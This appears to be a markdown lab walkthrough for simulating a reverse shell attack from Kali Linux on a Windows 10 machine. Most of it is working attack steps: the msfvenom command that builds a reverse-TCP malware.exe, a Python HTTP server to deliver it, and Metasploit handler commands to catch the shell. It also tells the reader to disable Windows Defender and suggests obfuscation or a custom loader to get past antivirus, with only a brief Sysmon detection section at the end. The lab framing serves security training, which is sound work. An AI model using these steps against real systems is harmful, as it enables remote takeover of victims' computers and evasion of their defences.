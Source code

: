 # 🛡️ Scenario 3: Reverse Shell via Malware Execution

## 🎯 Objective
To simulate a reverse shell attack by generating a malicious payload in Kali Linux and executing it on a Windows system to establish a remote shell session.

---

## 🧰 Tools & Systems Used

| Tool/OS              | Purpose                               |
|----------------------|----------------------------------------|
| Kali Linux (Attacker) | Generate payload and capture shell     |
| Windows 10 (Victim)   | Execute payload and act as the target  |
| Metasploit Framework  | Listener for reverse shell             |
| Sysmon (optional)     | Monitor process and network activity   |

---

## 🧪 Lab Setup

- **Kali IP:** `192.168.1.14`  
- **Windows IP:** Example `192.168.1.16`  
- Ensure both are on the same network.
- Turn off Windows Defender or add an exception.

---

## 🛠️ Step-by-Step Instructions

### 1️⃣ Generate Payload in Kali

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.14 LPORT=4444 -f exe -o malware.exe
-p: Payload type

LHOST: Kali IP

LPORT: Listening port

-f exe: File format

-o malware.exe: Output filename

2️⃣ Transfer Payload to Windows
Start a simple HTTP server on Kali:

bash
Copy
Edit
python3 -m http.server 8000
In Windows, download via browser:

cpp
Copy
Edit
http://192.168.1.14:8000
Save the file in:

makefile
Copy
Edit
C:\Users\windows\Downloads\malware.exe
3️⃣ Start Metasploit Listener on Kali
bash
Copy
Edit
msfconsole
Configure handler:

bash
Copy
Edit
use exploit/multi/handler
set payload windows/x64/shell_reverse_tcp
set LHOST 192.168.1.14
set LPORT 4444
exploit
This will start the listener and wait for a connection.

4️⃣ Execute Payload on Windows
Double-click and run malware.exe in Windows.

If successful, Kali will show:

nginx
Copy
Edit
Command shell session opened
You can now execute remote commands:

bash
Copy
Edit
whoami
ipconfig
5️⃣ (Optional) Monitor Using Sysmon
Open:

vbnet
Copy
Edit
Event Viewer > Applications and Services Logs > Microsoft > Windows > Sysmon > Operational
Look for:

Event ID 1: Process creation (malware.exe)

Event ID 3: Network connection from victim to Kali

🛑 Detection & Prevention Tips
Technique	Description
Sysmon Logs	Shows suspicious process and network activity
Defender Alerts	Detects reverse shell EXE (if enabled)
Network Monitoring	Unusual outbound connection to Kali

📌 Notes
Use windows/x86/shell_reverse_tcp if 64-bit payload fails.

Add set ExitOnSession false in Metasploit if session closes too quickly.

If AV blocks EXE, try obfuscation or compile custom loader.

✅ Outcome
A successful reverse shell session was established from a Windows machine to Kali Linux using a crafted EXE file and Metasploit’s handler.
